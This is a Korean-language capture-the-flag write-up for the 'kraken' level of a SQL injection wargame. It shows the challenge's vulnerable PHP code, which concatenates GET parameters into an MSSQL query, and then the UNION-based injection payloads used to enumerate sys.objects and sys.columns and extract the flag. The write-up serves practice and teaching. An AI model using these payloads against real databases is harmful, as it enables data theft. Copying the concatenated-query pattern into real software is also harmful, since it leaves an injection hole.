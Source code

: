 ```yaml
---
title : "LOS Lv.45 kraken"
categories : [Wargame, rubiya]
tags: [mssql sys.objects, sys.columns]
---
```


## kraken
```php
query : select id from member where id='' and pw=''

<?php
  include "./config.php";
  login_chk();
  $db = mssql_connect("kraken");
  if(preg_match('/master|information|;/i', $_GET['id'])) exit("No Hack ~_~");
  if(preg_match('/master|information|;/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select id from member where id='{$_GET['id']}' and pw='{$_GET['pw']}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = sqlsrv_fetch_array(sqlsrv_query($db,$query));
  if($result['id']) echo "<h2>{$result['id']}</h2>";

  if($krakenFlag === $_GET['pw']) solve("kraken");// Flag is in `flag_{$hash}` table, not in `member` table. Let's look over whole of the database.
  highlight_file(__FILE__);
?>
```

## Solution
sys 필터링이 없어짐. sys.objects, sys.columns 사용 가능.  
sys.objects : <a href="https://docs.microsoft.com/ko-kr/sql/relational-databases/system-catalog-views/sys-objects-transact-sql?view=sql-server-ver15" target="_blank">here</a>  
sys.columns : <a href="https://docs.microsoft.com/ko-kr/sql/relational-databases/system-catalog-views/sys-columns-transact-sql?view=sql-server-ver15" target="_blank">here</a>  

```
처음에 그냥 table 목록을 뽑아오니 a_dummy_table이 나옴.

그래서 테스트 환경에서 5개의 테이블을 생성하고 
아래처럼 offset 안의 값을 증가시키면 한 개씩 반환됨을 확인.

이를 이용해서 flag로 시작하는 테이블을 찾으면 됨.
```
```
select name from sys.objects where type='U' order by name offset 0 rows fetch next 1 rows only
```
order by 할 때 name으로 하면 안됨. 이유는 결과로 나올 컬럼은 id 이기 때문임.
```
?id=' union select name from sys.objects where type='U' order by id offset 1 rows fetch next 1 rows only --%20
-> flag_ccdfe62b
```
```
이제 flag_ccdfe62b의 object_id를 알아낼꺼임.
?id=' union select object_id from sys.objects where name='flag_ccdfe62b' --%20
-> 901578250

object_id를 통해 table 구별을 해줄꺼임. -> 고유 값이라 가능
```
```
이제 column 이름을 뽑아올꺼임
?id=' union select name from sys.columns where object_id='901578250' --%20
-> flag_ab15b600
```
```
table 이름과 column 이름을 모두 알아냈으므로 flag를 뽑으면 됨.

?id=' union select flag_ab15b600 from flag_ccdfe62b --%20
-> FLAG{a0819fc56beae985bac7d175c974cd27}
```